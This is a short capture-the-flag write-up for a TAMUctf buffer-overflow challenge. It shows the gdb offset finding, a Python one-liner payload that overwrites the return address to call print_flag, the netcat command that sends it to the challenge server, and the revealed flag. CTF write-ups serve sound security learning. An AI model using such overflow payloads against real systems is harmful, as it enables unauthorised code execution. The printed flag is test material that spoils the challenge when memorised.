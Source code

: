 ```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

So for the second pwnable we have a binary that claims it repeats everything you tell it.
```
I just love repeating what other people say!
I bet I can repeat anything you tell me!
```
As a test I write in a pattern to see if it's vulnerable to a buffer overflow.  Lo and behold!
```
0x46254130 in ?? ()
gdb-peda$ pattern offset 0x46254130
1176846640 found at offset: 243
```

So we now have EIP overwrite after 243 bytes.  If we use `info functions` within gdb we see an interesting function that looks mighty suspicious:
```
0x0804854b  print_flag
```

As a quick test I wrote into a file which created a buffer which returns into that function:
```bash
root@kali:~/Desktop/tamuctf# python -c 'print "A"*243+"\x4b\x85\x04\x08"' > /tmp/var 
root@kali:~/Desktop/tamuctf# nc pwn.ctf.tamu.edu 4322 < /tmp/var 
I just love repeating what other people say! 
I bet I can repeat anything you tell me! 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAK� 
This function has been deprecated 
gigem{3ch035_0f_7h3_p4s7} 
```
Well that was actually easier than pwn1!  We got the second flag!
